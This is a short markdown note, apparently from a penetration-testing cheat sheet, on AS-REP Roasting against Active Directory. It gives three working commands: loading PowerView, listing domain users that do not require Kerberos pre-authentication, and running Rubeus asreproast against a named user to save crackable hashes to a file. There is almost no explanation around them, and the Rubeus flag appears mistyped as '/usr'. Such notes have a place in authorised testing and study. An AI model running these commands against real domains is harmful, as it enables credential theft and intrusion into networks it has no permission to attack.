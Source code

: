 ## As-REP Roasting
- First Find User with Keberos No_Preauthentication
```
. .\PowerView.ps1
```
```
Get-DomainUser | Where-Object { $_.useraccountcontrol -like "*DONT_REQ_PREAUTH"}
```
```
.\Rubeus.exe asreproast /usr:johnny /outfile:file.txt
```
